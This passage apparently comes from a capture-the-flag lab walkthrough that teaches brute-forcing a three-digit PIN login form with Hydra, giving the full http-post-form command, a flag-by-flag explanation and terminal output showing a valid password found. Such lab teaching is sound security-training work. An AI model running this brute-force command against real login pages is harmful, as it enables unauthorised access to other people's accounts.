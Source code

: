 These three pieces of information, `post`, `/login.php`, and `pin`, are necessary to set the arguments for Hydra.

We will use `hydra` to test every possible password that can be put into the system. The command to brute force the above form is:

`hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `MACHINE_IP` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

It’s time to run `hydra` and discover the password. Please note that in this case, we expect `hydra` to take three minutes to find the password. Below is an example of running the command above:

AttackBox Terminal

```shell-session
root@AttackBox# hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 17:38:42
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1109 login tries (l:1/p:1109), ~70 tries per task
[DATA] attacking http-post-form://MACHINE_IP:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[...]
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[8000][http-post-form] host: MACHINE_IP   password: [redacted]
[STATUS] attack finished for MACHINE_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 17:39:24
```
